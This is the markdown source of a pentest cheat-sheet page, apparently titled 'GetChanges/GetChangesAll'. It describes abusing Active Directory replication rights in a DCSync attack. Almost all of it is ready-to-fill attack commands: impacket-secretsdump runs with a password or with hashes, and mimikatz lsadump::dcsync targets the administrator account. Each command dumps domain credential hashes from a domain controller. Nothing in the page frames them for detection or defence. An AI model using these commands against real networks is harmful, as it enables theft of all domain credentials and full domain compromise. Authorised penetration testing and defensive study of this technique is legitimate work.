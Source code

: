 ```yaml
---
title: "GetChanges/GetChangesAll"
date: 2024-7-9
tags: ["Dcsync", "Getchanges", "Getchangesall", "Secretsdump", "Active Directory", "Windows"]
---
```


#### Abuse #1: DCSync Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# With creds
impacket-secretsdump -just-dc '<USER>:<PASSWORD>@<TARGET>'
```

```console
# With hashes
impacket-secretsdump -hashes <HASH> -just-dc '<DOMAIN>/<USER>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
.\mimikatz.exe 'lsadump::dcsync /domain:<DOMAIN> /user:administrator' exit
```

{{< /tabcontent >}}
